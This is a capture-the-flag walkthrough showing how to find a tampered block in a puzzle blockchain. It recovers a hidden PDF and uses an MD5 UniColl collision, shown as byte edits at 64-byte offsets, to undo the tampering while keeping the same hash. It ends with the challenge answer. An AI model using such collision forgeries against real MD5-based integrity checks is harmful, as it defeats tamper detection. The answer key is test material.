Not exactly. The signature verification fails on the first block. The trouble is, we need a different way of verifying the blockchain because we only have a chunk of it, not the whole blockchain. The documentation mentions an additional argument to verify the blockchain when you don’t have the beginning (the genesis block). We need to tell verify_chain to use the PreviousHash field of the block 0 as starting point:
with open('official_public.pem', 'rb') as fh:
official_public_key = RSA.importKey(fh.read())
c2 = Chain(load=True, filename='blockchain.dat')
print('C2: Block chain verify: %s' % (c2.verify_chain(official_public_key, "c6e2e6ecb785e7132c8003ab5aaba88d")))
And our block chain is now verified /o/
C2: Block chain verify: True
But wait. I thought we were going to find the altered block with this method? Let’s go back to square one, the description gives us the SHA-256 of the altered block: 58a3b9335a6ceb0234c12d35a0564c4e f0e90152d0eb2ce2082383b38028a90f, why not compute the SHA-256 of every block until we have one that is identical.
Finding the Altered Block
The Block class already has a full_hash method that compute the MD5 of the block. Let’s copy it and modify it to use SHA256 (bonus: SHA256 is even already imported in the script):
from Crypto.Hash import MD5, SHA256
class Block
[...]
def full_hash(self):
hash_obj = MD5.new()
hash_obj.update(self.block_data_signed())
return hash_obj.hexdigest()
def full_hash_SHA256(self):
hash_obj = SHA256.new()
hash_obj.update(self.block_data_signed())
return hash_obj.hexdigest()
We compute all SHA-256 and find the matching block:
def obj11b():
with open('official_public.pem', 'rb') as fh:
official_public_key = RSA.importKey(fh.read())
# load the chain from the blockchain.dat file
chain = Chain(load=True, filename='blockchain.dat')
# compute the SHA-256 of each block
sha256hashes = [block.full_hash_SHA256() for block in chain.blocks]
# SHA-256 of Jack's block
ALTERED_BLOCK_SHA256 = "58a3b9335a6ceb0234c12d35a0564c4ef0e90152d0eb2ce2082383b38028a90f"
# find the block matching Jack's SHA-256
if ALTERED_BLOCK_SHA256 in sha256hashes:
index = sha256hashes.index(ALTERED_BLOCK_SHA256)
print(f"found it boss! it's the block at index {index}")
# retrieve the altered block
altered_block = chain.blocks[index]
Now, dump the doc of that block:
for i in range(10):
altered_block.dump_doc(i)
Note: I edited the dump_doc method to include the document number in the filename (otherwise, all documents get dumped to the same file, overwriting each other):
def dump_doc(self, doc_no):
- filename = '%s.%s' % (str(self.index), data_extension[self.data[doc_no - 1]['type']])
+ filename = '%s-%s.%s' % (str(self.index), doc_no, data_extension[self.data[doc_no - 1]['type']])
[download link] for the complete Python script.
There are two documents in that altered block:
$ ./naughty_nice.py
found it boss! the altered hash is at index 1010
Document dumped as: 129459-0.pdf
Document dumped as: 129459-1.bin
A PDF of praise for Jack:
And a binary blob:
$ hd 129459-1.bin
00000000 ea 46 53 40 30 3a 60 79 d3 df 27 62 be 68 46 7c |.FS@0:`y..'b.hF||
00000010 27 f0 46 d3 a7 ff 4e 92 df e1 de f7 40 7f 2a 7b |'.F...N.....@.*{|
00000020 73 e1 b7 59 b8 b9 19 45 1e 37 51 8d 22 d9 87 29 |s..Y...E.7Q."..)|
00000030 6f cb 0f 18 8d d6 03 88 bf 20 35 0f 2a 91 c2 9d |o........ 5.*...|
00000040 03 48 61 4d c0 bc ee f2 bc ad d4 cc 3f 25 1b a8 |.HaM........?%..|
00000050 f9 fb af 17 1a 06 df 1e 1f d8 64 93 96 ab 86 f9 |..........d.....|
00000060 d5 11 8c c8 d8 20 4b 4f fe 8d 8f 09 |..... KO....|
0000006c
Since we know that the blockchain is valid, it means that the altered block somehow has the same MD5 than the original block, probably using a collision attack which allows you to modify some document without changing its MD5.
Retrieving the original PDF
We can start comparing that PDF to any other PDF from the blockchain to see the differences.
For example, let’s dump the PDF of block 128449:
# dump the PDF of a normal block
block_128449 = chain.blocks[0]
block_128449.dump_doc(0)
The first thing we can check is the general details of the PDF with pdfinfo:
pdfinfo - Portable Document Format (PDF) document information extractor
Pdfinfo prints the contents of the ‘Info’ dictionary (plus some other useful information) from a Portable Document Format (PDF) file.
~ man pdfinfo
For the normal PDF:
$ pdfinfo 128449-0.pdf
Tagged: no
UserProperties: no
Suspects: no
Form: none
JavaScript: no
Pages: 1
Encrypted: no
Page size: 612 x 792 pts (letter)
Page rot: 0
File size: 935 bytes
Optimized: no
PDF version: 1.3
But on 129459-0.pdf we have loads of errors:
$ pdfinfo 129459-0.pdf
Syntax Error (81): Dictionary key must be a name object
Syntax Error (82): Illegal character <aa> in hex string
Syntax Error (83): Illegal character <e5> in hex string
Syntax Error (85): Illegal character <78> in hex string
[...]
JavaScript: no
Pages: 1
Encrypted: no
Page size: 612 x 792 pts (letter)
Page rot: 0
File size: 40791 bytes
Optimized: no
PDF version: 1.3
We can use pdf-parser.py to have a more closer look at the structure of the PDFs:
$ ./pdf-parser.py 128449-0.pdf > pdfparser_128449
$ ./pdf-parser.py 129459-0.pdf > pdfparser_129459
Before we dive in, we need some background on the PDF file structure and how collisions works on PDFs!
- https://gendignoux.com/blog/2016/10/04/pdf-basics.html
- https://www.youtube.com/watch?v=k8FIDGmmYvs
- PDF file structure in one picture
{kind=link}
In particular, https://github.com/corkami/collisions#pdf and the section PDF collisions with MD5 as well as https://speakerdeck.com/ange/colltris?slide=194 (reading the whole slide deck is highly recommended!). These show exactly how to create a PDF hiding 2 PDFs:
Which means that we should be able to recover the original PDF before Jack’s alters. Let’s explain how the PDF will be read:
-
We’ll start at the end of the PDF, in the trailer with the Root object:
/Root 1 0 R -
Next, we’ll check the xref table (just above) to see where in the PDF is the object 1 0
0000000018 -
Now, at offset 0x18, we have the \Catalog object which defines the starting object, here object 2:
-
Every objects can then reference other objects and form the PDF itself.
A more readable version of Catalog:
/Type /Catalog
/_Go_Away /Santa
/Pages '2 0 R 0ùÙ¿W\x8e<ªå\rx\x8fç`ó\x1dd¯ª\x1e¡ò¡=cu>\x1a¥¿\x80bOÃF¿ÖgÊ÷I\x95\x91Ä\x02\x01í«\x03¹ï\x95\x99\x1c[I\x9f\x86Ü\x859\x85\x90\x99\xadT°\x1es?姤\x89¹2\x95ÿTh\x03MIy8èù¸Ë:ÃÏPð\x1b2[\x9b\x17tu\x95B+sxð%\x02á©°¬\x85(\x01z\x9e'
>>
Probably that Go_Away /Santa comment means we are on the right track! Like in the slide, we are using a path starting with object 2 which gives us the PDF of praises for Jack. But there’s an alternative path starting with object 3, that should give us a totally different file!
Using a binary editor, we replace the 2 by a 3 and save the file as original.pdf:
And we get a totally different PDF with the real story:
Collisions
So now, we know what we need to modify in the PDF to undo Jack’s modification on the PDF. But how can we do that modification and still have the same block hash?
Going back to Ange Albertini’s resources:
- https://github.com/corkami/collisions/blob/master/unicoll.md
- https://speakerdeck.com/ange/colltris?slide=194
PDFs are vulnerable to two types of collisions: unicoll and hashclash. But unicoll is the only one where you can control the difference in a deterministic way.
It works like this:
Basically, you can increment the 10th byte in a first block and decrement the 10th byte of the block below without modifying the MD5. And a block is 64 bytes.
Note that we need to do this collision on the block, not only on the PDF, so let’s dump the raw block with the save_a_block method:
chain.save_a_block(index, f"block-129459.dat")
We can do our first modification: putting back the original PDF in the block.
- At offset 0x109, we increment the 0x32 to 0x33 to select object 3 in the PDF
- At offset 0x149 (which is the next block, 0x109 + 64), we decrement the 0x1C to 0x1B to compensate and keep the same MD5.

And we can verify that both files have the same MD5:
$ md5sum block-129459.dat
b10b4a6bd373b61f32f4fd3a0cdfbf84 block-129459.dat
$ md5sum block-129459-altered1.dat
b10b4a6bd373b61f32f4fd3a0cdfbf84 block-129459-altered1.dat
And of course, we also need to kick Jack from the Nice list and put him on the Naughty list! Whether or not someone is on the Nice list is controlled by the sign field in the Block class:
block_data['sign']
It can take these values:
Naughty = 0
Nice = 1
If we print the altered block:
Chain Index: 129459
Nonce: a9447e5771c704f4
PID: 0000000000012fd1
RID: 000000000000020f
Document Count: 2
Score: ffffffff (4294967295)
Sign: 1 (Nice)
Data item: 1
We can see that the sign value 1 is stored after a ffffffff, this will help us find the 1 in the hexadecimal dump of the block, at offset 0x49.
So, for our second modification:
- at offset 0x49, we decrement 0x31 to 0x30 to transform the Nice into Naughty
- at offset 0x89 (0x49 + 64), we increment 0xD6 to 0xD7 to compensate for our modification.
If our collision is successful, both will still have the same MD5:
$ md5sum block-129459-altered1.dat
b10b4a6bd373b61f32f4fd3a0cdfbf84 block-129459-altered1.dat
md5sum block-129459-altered2.dat
b10b4a6bd373b61f32f4fd3a0cdfbf84 block-129459-altered2.dat
ps: I have no idea why this collision work “in reverse”, ie decrementing in the first block and incrementing in the second block but it works :‘D
And we now have our original block!
$ sha256sum block-129459-altered2.dat
fff054f33c2134e0230efb29dad515064ac97aa8c68d33c58c01213a0d408afb block-129459-altered2.dat
Answer: fff054f33c2134e0230efb29dad515064ac97aa8c68d33c58c01213a0d408afb
The End
Submit the last answer, and travel as yourself to Santa’s office to complete the story:
Yay, we saved Christmas and it looks like Jack is going to prison :D